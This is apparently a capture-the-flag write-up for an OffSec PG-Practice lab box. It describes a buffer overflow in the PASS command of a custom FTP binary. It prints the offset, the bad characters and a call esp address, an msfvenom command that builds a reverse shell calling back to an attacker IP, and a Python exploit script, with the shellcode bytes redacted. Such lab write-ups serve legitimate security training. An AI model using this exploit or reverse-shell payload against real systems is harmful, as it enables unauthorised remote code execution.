

This is a box from Offsec PG-Practice.  [Link_](https://portal.offsec.com/machine/kyoto-52223/overview)

We found the binary and log.txt in the DEV Share.

```
# use dev
# ls
drw-rw-rw-          0  Tue Aug  8 16:39:28 2023 .
drw-rw-rw-          0  Mon Jun 15 12:34:50 2026 ..
drw-rw-rw-          0  Tue Aug  8 16:39:28 2023 .git
-rw-rw-rw-        155  Tue Aug  8 16:38:37 2023 DEVLOG.txt
-rw-rw-rw-     155648  Tue Aug  8 16:38:37 2023 ftp.exe
# cat DEVLOG.txt
0.2
 - Identified issue with login after last patch
 - Improved Performance
0.1
 - Patched vulnerability in the RETR command
 - Improved login process
```


Reverse Engineering the binary in IDA :




The program just checks the max-count i.e strcmp for user but not for the pass filed. So , we can exploit the PASS :  

Offset : 270

Bad Characters : `0x00`

Didnt find the jmp esp , we can also use call esp.

```
0:000> s -b 00400000 00429000 ff d4
004016be  ff d4 44 42 00 c7 85 9c-fe ff ff f8 44 42 00 8d  ..DB........DB..
0040d50e  ff d4 40 00 f5 d4 40 00-fa d4 40 00 03 d5 40 00  ..@...@...@...@.

0:000> u 004016be 
004016be ffd4            call    esp
```


Now , Generate the shellcode and replace eip with call esp: We are good to go.

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.174 LPORT=1337 EXITFUNC=thread -f python -v shellcode -b "\x00"                 
```

```python
#!/usr/bin/env python3
import socket
from struct import pack

TARGET_IP = "192.168.108.31"
TARGET_PORT = 21

shellcode = b"\x90" * 20
shellcode +=  b""                                                                                    ....<redacted>......


payload = b"A" * 270
payload += pack("<L", 0x004016be)
payload += shellcode
payload += b"C" * (1000 - len(payload))

print(f"[+] Sending {len(payload)} bytes...")  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((TARGET_IP, TARGET_PORT))
s.send(b"USER admin\r\n")
s.send(b"PASS " + payload + b"\r\n")
s.close()

print("[+] HACK THE PLANET !")
```


